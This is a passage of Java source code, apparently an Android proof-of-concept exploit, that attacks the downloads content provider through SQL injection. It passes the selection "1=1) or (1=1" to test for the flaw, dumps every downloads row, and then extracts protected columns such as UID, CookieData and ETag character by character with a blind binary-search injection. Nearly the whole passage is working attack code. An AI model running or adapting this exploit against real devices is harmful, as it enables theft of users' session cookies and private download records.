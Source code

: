         try {
            cur = res.query(uri, null, "1=1) or (1=1", null, null);
        } catch (IllegalArgumentException e) {
            Log.e(TAG, "Error", e);
            log("ERROR: The device does not appear to be vulnerable");
            return;
        }

        try {
            if (cur != null && cur.getCount() > 0) {
                // Iterate all results and display some fields for each row from the downloads database
                while (cur.moveToNext()) {
                    int rowId = cur.getInt(cur.getColumnIndex("_id"));
                    String rowData = cur.getString(cur.getColumnIndex("_data"));
                    String rowUri = cur.getString(cur.getColumnIndex("uri"));
                    String rowTitle = cur.getString(cur.getColumnIndex("title"));
                    String rowDescription = cur.getString(cur.getColumnIndex("description"));

                    StringBuilder sb = new StringBuilder(LOG_SEPARATOR);
                    sb.append("DOWNLOAD ID ").append(rowId);
                    sb.append("\nData: ").append(rowData);
                    sb.append("\nUri: ").append(rowUri);
                    sb.append("\nTitle: ").append(rowTitle);
                    sb.append("\nDescription: ").append(rowDescription);

                    if (dumpProtectedColumns) {
                        int uid = binarySearch(rowId, "uid");
                        sb.append("\nUID: ").append(uid);

                        dumpColumn(rowId, "CookieData", sb);
                        dumpColumn(rowId, "ETag", sb);
                    }

                    log(sb.toString());
                }
                log("\n\nDUMP FINISHED");
            }
        } finally {
            if (cur != null)
                cur.close();
        }
    }

    private void dumpColumn(int rowId, String columnName, StringBuilder sb) {
        if (isTrueCondition(rowId, "length(" + columnName + ") > 0")) {
            int len = binarySearch(rowId, "length(" + columnName + ")");

            sb.append("\n" + columnName + ": ");
            for (int i = 1; i <= len; i++) {
                int c = binarySearch(rowId, "unicode(substr(" + columnName + "," + i + ",1))");
                String newChar = Character.toString((char) c);
                sb.append(newChar);
            }
        }
    }
